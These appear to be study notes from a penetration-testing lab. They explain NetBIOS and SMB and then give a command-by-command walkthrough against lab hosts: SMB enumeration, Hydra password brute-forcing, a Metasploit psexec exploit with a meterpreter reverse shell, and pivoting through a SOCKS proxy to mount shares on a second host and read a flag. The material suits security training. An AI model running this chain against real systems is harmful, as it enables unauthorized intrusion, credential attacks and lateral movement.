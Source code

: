 - NetBIOS and SMB are two different technologies, but they're related in the context of networking and file sharing on Windows networks.
- Let's break down each of them to understand their roles and how they differ.

NetBIOS (Network Basic Input/Output System)
- NetBIOS is an API and a set of network protocols for providing communication services over a local network. It's used primarily to allow applications on different computers to find and interact with each other on a network.
- Functions: NetBIOS offers three primary services:
	- Name Service (NetBIOS-NS): Allows computers to register, unregister, and resolve names in a local network.
	- Datagram Service (NetBIOS-DGM): Supports connectionless communications and broadcasting.
	- Session Service (NetBIOS-SSN): Supports connection-oriented communication for more reliable data transfers.
- Ports: NetBIOS typically uses ports 137 (Name Service), 138 (Datagram Service), and 139 (Session Service) over UDP and TCP.

SMB (Server Message Block)
- SMB is a network file sharing protocol that allows computers on a network to share files, printers, and other resources. It is the primary protocol used in Windows networks for these purposes.
- Functions: SMB provides features for file and printer sharing, named pipes, and inter-process communication (IPC). It allows users to access files on remote computers as if they were present locally.
- Versions: SMB has several versions:
	- SMB 1.0: The original version of SMB, which has several security vulnerabilities. It was used with older operating systems like Windows XP.
	- SMB 2.0/2.1: Introduced with Windows Vista/Windows Server 2008, offering improved performance and security.
	- SMB 3.0+: Introduced with Windows 8, Windows Server 2012, adding features like encryption, multichannel support, and improvements for virtualization.
- Ports: SMB generally uses port 445 for direct SMB traffic (bypassing NetBIOS) and port 139 when operating with NetBIOS.

SMB & NetBIOS Enumeration
- While NetBIOS and SMB were once closely linked, modern networks rely primarily on SMB for file and printer sharing, often using DNS and other mechanisms for name resolution instead of NetBIOS.
- Modern implementations of Windows primarily use SMB and can work without NetBIOS, however, NetBIOS over TCP 139 is required for backward compatibility and are often enabled together.

Practical Demonstration
- Environment Description
	- `cat /etc/hosts`
	- There are two custom entries present in the `/etc/hosts` file, for this instance, we will use the example of `10.4.30.129    demo.ine.local` and `10.4.26.4    demo1.ine.local`. One of these entries, `demo.ine.local` (Target 1) is going to be accessible by the local system, whereas the other entry, `demo1.ine.local` (Target 2) present needs to be pivoted to from the first one, `demo.ine.local`.
	- `ping demo.ine.local`, this would result in successful data transmission, since the host is reachable.
	- `ping demo1.ine.local`, this would result in failure to transmit data, since the host is unreachable and needs to be pivoted to.
- Port Enumeration
	- `nmap demo.ine.local`
	- The following ports would be open on `demo.ine.local`: 135/tcp (MS-RPC), 139/tcp (NetBIOS-SSN), 445/tcp (SMB) and 3389/tcp (RDP).
	- We may remember that NetBIOS SSN runs on port 139/tcp and is used for connection-oriented communication.
	- `nmap -sU -p 137 demo.ine.local`, we did this to scan the UDP port 137 on the target machine to determine if the NetBIOS Name Service is running and reachable.
	- The 137/udp port is in the `open|filtered` state.
- NetBIOS Name Enumeration using `nbtscan`
	- `whatis nbtscan`
	- `ifconfig`, to determine the subnet of the first target machine we want to enumerate information about.
	- `nbtscan 10.4.30.0/24`
	- Alternatively if that doesn't work, we can use the `nbstat` Nmap script instead:
		- `nmap -sU -sV -T4 --script nbstat.nse -p 137 -Pn -n 10.4.30.139`
- NetBIOS Name Enumeration using `nmblookup`
	- `nmblookup -A 10.4.30.139`
- SMB Enumeration
	- Port Enumeration for NetBIOS-SSN and SMB:
		- `nmap -sV -p 139,445 demo.ine.local`
	- SMB Version Enumeration using Nmap scripts:
		- `ls -al /usr/share/nmap/scripts/ | grep -e "smb-*"`
		- `nmap -p445 --script smb-protocols demo.ine.local`
		- The scripts results tell us that the SMB version running on the target machine is SMBv1.
		- Some vulnerabilities relevant to SMBv1 are null sessions.
	- SMB Security Mode Enumeration using Nmap scripts:
		- `nmap -p445 --script smb-security-mode demo.ine.local`
		- The result of this script tells us the account used by Nmap to perform enumeration on the target machine, the authentication level used by the target SMB service (user or share level authentication), the challenge response state (password only or hash/key based authentication), and message signing state (mitigation for SMB relay attacks).
	- Testing for SMB Null Session (Anonymous Access) using `smbclient`
		- `smbclient -L demo.ine.local`
		- If entering no password leads to a successful login, we can confirm that anonymous access are enabled on the SMB service instance.
		- If a null session is present, we can use it to further enumerate the SMB service, the first things shown on screen upon successful authentication are the share names and the share types, this can help us enumerate information about the shares present on the SMB server, and check if any IPC shares are present on the server.
		- Enumerating Windows users using Nmap scripts:
			- If null sessions are present, we can also perform username enumeration on the Windows machine, just through SMB, using the Nmap `smb-enum-user` script.
			- `nmap -p445 --script smb-enum-users 10.4.30.139`
			- The result of this script tells us the hostname of the Windows machine, along with the usernames of the accounts present on it.
			- The RID of the user can help us determine the type of the account, a RID value of 500 stands for an Administrator user account.
- Bruteforcing SMB user accounts using Hydra
			- `nano users.txt`
			- `echo "admin" >> users.txt`
			- `echo "administrator" >> users.txt`
			- `echo "root" >> users.txt`
			- `hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb`
- Authenticated Remote Code Execution using PsExec
	- `psexec.py administrator@demo.ine.local`
		- Password: `password1`
			- `whoami`
	- `msfconsole -q`
	- `search psexec`
	- `use exploit/windows/smb/psexec`
	- `show options`
	- `set RHOSTS demo.ine.local`
	- `set SMBUser administrator`
	- `set SMBPass password1`
	- `set payload windows/x64/meterpreter/reverse_tcp`
	- Meterpreter Session:
		- `sysinfo`
		- `shell`
		- Windows Command Shell on Target 1:
			- `ping 10.4.26.41` Verifying that Target 2 is accessible to us via the access we have on Target 1.
		- Setting up routing to use Target 1 as a pivoting point for Target 2:
			- `run autoroute -s 10.4.26.0/20`
		- `background`
	- Setting up a system-wide SOCKS proxy:
		- It would be beneficial to setup a system-wide proxy on the attack machine to ensure that we can use the route we set up earlier on tools except Metasploit.
		- Meterpreter Session from the previous section:
			- `search socks`
			- `use auxiliary/server/socks_proxy`
			- The values to be used for this module are based on the installation of proxychains we have installed on our attack box, and can be looked up in the configuration for that tool.
			- `set VERSION 4a`
			- `set SRVPORT 9050`
			- `exploit`
		- `netstat -antp`, we should now check for a ruby program listening on port 9050 to ensure that the system-wide proxy has been setup correctly and is working as required.
	- Enumeration on Target 2 using Target 1 as a pivot point:
		- Performing an Nmap scan on Target 2 using the system-wide proxy we set up earlier:
			- `proxychains nmap demo1.ine.local -sT -Pn -sV -p 445`
			- The Nmap scan informed us that SMB is up and running on Target 2.
		- `sessions`
		- `sessions 2`
		- Meterpreter Session from the previous section:
			- `shell`
			- Command Shell on Target 1:
				- `net view 10.4.26.4`, since we already know from the Nmap scan we conducted earlier on Target 2 that SMB is running on it, we can try to view the shared available to us as the user logged in on Target 1 via this command.
				- This resulted in a access is denied message, since we are already running as NT Authority, we can try migrating to another process to ensure it works.
			- `migrate -N explorer.exe`
			- `shell`
			- Command Shell on Target 1:
				- `net view 10.4.26.4`
				- `net use D: \\10.4.26.4\Documents`
				- `net use K: \\10.4.26.4\K$`
				- `dir D:`
				- `type FLAG2.txt`
				- `dir K:`